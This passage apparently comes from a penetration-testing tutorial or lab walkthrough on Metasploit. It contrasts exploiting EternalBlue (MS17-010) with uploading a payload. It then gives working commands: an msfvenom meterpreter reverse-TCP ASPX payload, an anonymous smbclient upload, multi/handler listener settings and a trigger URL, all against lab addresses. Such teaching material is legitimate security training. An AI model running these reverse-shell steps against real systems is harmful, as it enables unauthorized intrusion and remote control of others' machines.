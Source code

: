 ### Scenarios

#### Scenario 1: Direct Exploit (EternalBlue)

- **Vulnerability**: MS17-010
- **Goal**: Directly exploit and get a reverse shell.
- **Steps**:
  1. Use `exploit/windows/smb/ms17_010_eternalblue`.
  2. Set options and payload.
  3. Run `exploit`.

#### Scenario 2: Uploading a Payload

- **Situation**: Direct exploit is unreliable or target environment allows file uploads.
- **Goal**: Upload and execute a reverse shell payload.
- **Steps**:
  1. Generate the payload with `msfvenom`.
  2. Upload the payload using `smbclient`.
  3. Set up a listener with `exploit/multi/handler`.
  4. Trigger the payload via HTTP or another method.

### Example Workflow

1. **Generate Payload**:
   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.10.10 lport=4444 -f aspx -o reverse_shell.aspx
   ```

2. **Upload Payload**:
   ```bash
   smbclient //10.10.164.10/nt4wrksv -U "" -N
   put reverse_shell.aspx
   ```

3. **Set Up Listener**:
   ```plaintext
   use exploit/multi/handler
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 10.10.10.10
   set LPORT 4444
   exploit
   ```

4. **Trigger Payload**:
   ```plaintext
   http://10.10.164.10/nt4wrksv/reverse_shell.aspx
   ```

By understanding the contexts in which to use direct exploitation versus payload upload and how to use Multi/Handler for handling reverse shells, you can effectively adapt your approach based on the target environment and the specific vulnerabilities you are exploiting.

## The Metasploit Database

